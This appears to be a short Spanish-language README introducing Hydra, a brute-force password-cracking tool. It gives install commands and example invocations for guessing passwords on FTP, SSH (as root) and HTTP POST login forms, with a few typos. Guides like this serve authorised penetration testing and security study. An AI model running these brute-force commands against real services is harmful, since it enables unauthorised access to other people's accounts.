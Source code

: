 #by d4l1

<p align="centeR"><img src="https://github.com/user-attachments/assets/e1478a5c-198d-4d18-878e-5ddbf300f78b"></p>

<h1 align="center">HYDRA</h1>

# ÍNDICE

- [INSTALAR HYDRA]()
- [COMANDOS]()


# INTRODUCCIÓN

Hydra es un programa de crackeo de contraseñas por fuerza bruta.

Puede funcionar con una lista "Fuerza bruta". Es como imaginar meterse a un servicio (SSH, web, FTP) y probarlo, usamos hydra para que lo haga utomaticamente.

## INSTALAR HYDRA

```
apt install hydra
```
o
```
dnf install hydra
```

# COMANDOS

Las opciones que tneemos en hydra son por ejemplo 

```
hydra -l user -P pass.txt ftp://
```

para FTP

### SSH

```
hydra -l user -P pass.txt ip -t 4 ssh
```

![image](https://github.com/user-attachments/assets/e1c295f7-5944-44d2-bf04-9f98cf14a5bd)

Por ejemplo:

```
hydra -l root -p pass.txt ip -t 4 ssh
```
- Usamos el root como usario
- pass.txt como lista
- 4 intentos -t4

### POST WEB FORM

Podemos usar hydra en las páginas. Para hacer peticiones GET o POST comunmentes usados.

```
sudo hydar usuario pass.txt ip http-post-form "ruta:login:invalidresponse"
```

![image](https://github.com/user-attachments/assets/50f2880c-829f-4054-903c-84a0ad7ce2d6)

```
hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

- La login page es /
- usuario es username
- especificamos usuario USER
- La contraseña esta en el archivo que se usara
- Remplaza la pass por la real
- F=incorrect para volver a intentar cuando no sea ese.

